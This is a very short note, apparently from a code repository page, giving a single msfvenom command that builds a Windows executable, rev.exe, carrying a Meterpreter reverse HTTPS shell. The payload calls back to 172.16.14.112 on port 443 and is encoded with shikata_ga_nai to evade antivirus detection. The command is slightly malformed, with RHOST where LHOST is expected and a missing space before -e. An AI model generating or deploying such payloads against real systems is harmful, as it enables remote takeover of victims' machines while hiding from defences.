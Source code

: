 # Msfvenom
Create with:

msfvenom --platform Windows -p windows/x64/meterpreter_reverse_https RHOST 172.16.14.112 RPORT 443-e x86/shikata_ga_nai -f exe -o rev.exe
